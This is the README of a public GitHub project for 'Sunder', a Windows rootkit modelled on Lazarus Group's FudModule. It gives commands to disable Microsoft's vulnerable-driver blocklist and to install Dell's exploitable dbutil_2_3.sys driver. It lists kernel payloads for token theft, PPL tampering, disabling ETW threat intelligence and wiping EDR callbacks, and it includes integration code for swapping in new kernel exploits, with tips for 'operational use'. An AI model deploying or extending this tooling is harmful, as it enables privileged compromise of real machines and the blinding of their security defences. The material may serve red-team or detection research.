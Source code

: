# Sunder
Windows rootkit modeled after Lazarus Group's [FudModule rootkit](https://decoded.avast.io/janvojtesek/lazarus-and-the-fudmodule-rootkit-beyond-byovd-with-an-admin-to-kernel-zero-day/). Reference [this version of Sunder](Sunder-appid_exploit) for an example of the appid.sys driver exploit, which was utilized by Lazarus Group FudModule rootkit.

Sunder's vulnerable driver in this GitHub repository is Dell's dbutil_2_3.sys driver, since it is a simple vulnerability and therefore makes the rootkit-specific code easier to read. This driver **is blocked** by Microsoft. Execute the following commands to allow blocked drivers *(bcdedit command not required on Windows 11)*:
```
bcdedit /debug on	
powershell -c Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\CI\Config\ -Name VulnerableDriverBlocklistEnable 0
shutdown -r
```

This rootkit is designed to work with various kernel exploits. This allows you to change the vulnerable driver utilized to gain kernel read and write primitives. Updating the vulnerable driver is necessary to evade Microsoft's [blocked driver list](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/app-control-for-business/design/microsoft-recommended-driver-block-rules).

![PPL editing payload](images/ppl.PNG)

Sunder contains the following payloads ([See the images directory for screenshots](images)):
- Token Stealing - Steal a token from any process (spawns cmd.exe, but can be modified to spawn any process)
- Token Escalation - Add permissions to a given process 
- ACL Editing - Opens handle to target process despite integrity or PPL protection level
	- *Note: Offsets for ACL editing have only been tested against winlogon.exe, and may need updated for other target processes*
- Enable/Disable PPL - Tamper with process PPL protection levels 
- Disable ETWti - Disable ETW threat intelligence (kernel-mode hooking)
- Clear process callbacks - Clear all process creation notification callbacks
- Clear thread callbacks - Clear all thread creation notification callbacks
- Clear DLL callbacks - Clear all DLL image load notification callbacks 

## Requirements
The vulnerable [dbutil_2_3.sys](dbutil_2_3.sys) driver must be running on the target. Download it from this repository, then install it:
```
# Set the binPath to the full filepath to dbutil_2_3.sys
sc create dellserv binPath= C:\dbutil_2_3.sys type= kernel
sc start dellserv
```

*Note: This driver is in Microsoft's block list. Installation is blocked on many systems. Update the driver and kernel exploit to execute on systems that employ driver block lists.*

Run this exploit from medium integrity or higher. You must be in high integrity to install the vulnerable driver. 

## Usage
Build the exploit in Visual Studio (x64, Release). Execute sunder.exe. You will receive a prompt asking which payload to run. Enter a number to execute a post-exploitation payload. 

## Stability
The dbutil_2_3.sys exploit (CVE-2021-21551) is highly stable. Post-exploitation functionality uses hardcoded offsets for certain Windows structs; therefore, executing the rootkit on untested OS versions may result in a Blue Screen of Death (BSOD).

The rootkit has been tested on the following Windows versions:
- Windows 10 Pro build 19045
- Windows 11 Enterprise build 22621
- Windows 11 Enterprise build 26100 

## Improvements and Additions
The following are ways the rootkit can (and should) be improved for operational use. I will not be updating the public release to include these features.

### Improvements
- Include offsets for various Windows OS versions
- Create the Kernel driver service from rootkit code
- Clean up driver and service on exit
- Convert interactive post-ex prompts into commandline arguments
- Encrypt or hash plaintext strings

### Feature Additions
- Disable object/registry callbacks
- Disable ETW providers
- Disable minifilter drivers
- Suspend EDR threads 

## Updating the Exploit
The following sections describe how to utilize the rootkit with newer kernel exploits.

### Background Information
Understanding the following structs and function prototypes is necesssary for proper usage of this library.

EXP_OUT is a struct containing necessary values for successful post-exploitation. This struct allows post-exploitation to avoid making syscalls. Avoiding syscalls is vital as some exploits leave the running process in a sensitive state that will Blue Screen of Death (BSOD) from syscalls (such as when corrupting PreviousMode). 

The EXP_OUT struct is as follows:
```
// Define struct passed in from exploit (Add additional parameters if necessary)
//	Set any addresses resolved with GetProcAddress in advance, to avoid BSOD in PreviousMode exploits
typedef struct _EXP_OUT
{
	LPVOID readprimitive;				//	Cast this to _readqword in rootk()
	LPVOID writeprimitive;				//	Cast this to _writeqword in rootk()
	DWORD myProcessId;				// To avoid using GetCurrentProcessId() in post-ex code
	HANDLE vulnDriver;				// For use in cases where IOCTLs must be called for every read/write 
	ULONGLONG systemEprocess;			// To iterate through EPROCESS list
	ULONGLONG KeInsertQueueApc;			// To find set ETWti bit and disable it
	ULONGLONG PsSetCreateProcessNotifyRoutine;	// To clear process callbacks
	ULONGLONG PsSetCreateThreadNotifyRoutine;	// To clear thread callbacks
	ULONGLONG PsSetLoadImageNotifyRoutine;		// To clear DLL (image load) callbacks
} EXP_OUT, * PEXP_OUT;
```

Read and Write Primitives are vital for this library's post-exploitation features. Executing code in the modern Windows kernel is difficult due to mitigations, and may result in higher chance of BSOD. 'Read primitives' read a value from an arbitrary address. 'Write primitives' write an arbitrary value at an arbitrary address.

This library uses the following prototypes for read and write primitive functions:
```
// Define read and write primitive functions (hDriver can be NULL in some exploits)
typedef ULONGLONG(__fastcall* _readqword)(
	HANDLE hDriver,
	ULONGLONG readwhere
	);
typedef void(__fastcall* _writeqword)(
	HANDLE hDriver,
	ULONGLONG writewhere,
	ULONGLONG writewhat
	);
```

### Adding the Code
Include the 'rktools.cpp' and 'rktools.h' files in your C++ exploit project.
```
#include "rktools.h"
```

Instantiate the EXP_OUT struct (naming 'rootStruct' in this example):
```
	PEXP_OUT rootStruct = new EXP_OUT;
```

Set read and write primitive function pointers. This library is designed for functions that read/write 64-bit values (QWORDs) from/to 64-bit addresses.
```
	rootStruct->readprimitive  = (LPVOID)readqword;
	rootStruct->writeprimitive = (LPVOID)writeqword;
```

Obtain the process ID (PID) of the current process:
```
	DWORD myPid = GetCurrentProcessId();
	rootStruct->myProcessId = myPid;
```

Use your exploit's read primitive to obtain values of the following kernel-mode functions. This step is OPTIONAL, but necessary to leverage full post-exploitation functionality. *See [this code](Sunder/Sunder/Sunder.cpp) from lines 149-201 for an example of how to find the necessary kernel-mode functions.*
```
	rootStruct->KeInsertQueueApc			= KeInsertQueueApcAddr;
	rootStruct->PsSetCreateProcessNotifyRoutine	= ProcCallbackAddr;
	rootStruct->PsSetCreateThreadNotifyRoutine	= ThreadCallbackAddr;
	rootStruct->PsSetLoadImageNotifyRoutine		= DllCallbackAddr;
```

Populate rootStruct with the vulnerable kernel driver's handle. This is only required in certain cases, such as when an IOCTL must be called for every use of read/write primitives.
```
	rootStruct->vulnDriver = hDriver;	// Pass vulnerable driver's handle to struct
```

Identify the kernel-mode address of an EPROCESS object (preferably the SYSTEM process). This will enable post-exploitation to iterate through kernel EPROCESS structures.
``` 
	rootStruct->systemEprocess = iterProc;	// Set SYSTEM EPROCESS pointer
```

Finally, call the rootkit. This will open an interactive menu to execute various kernel-mode payloads.
```
    	rootk(rootStruct);			// Call rootkit functionality for post-exploitation
```

## References
Thanks to [Nero22k's blog](https://nero22k.github.io/posts/windows-applocker-driver-elevation-of-privilege-cve-2024-21338/) for mentioning the ExpProfileDelete function as a useful gadget for arbitrary decrements (utilized in appid.sys exploit).

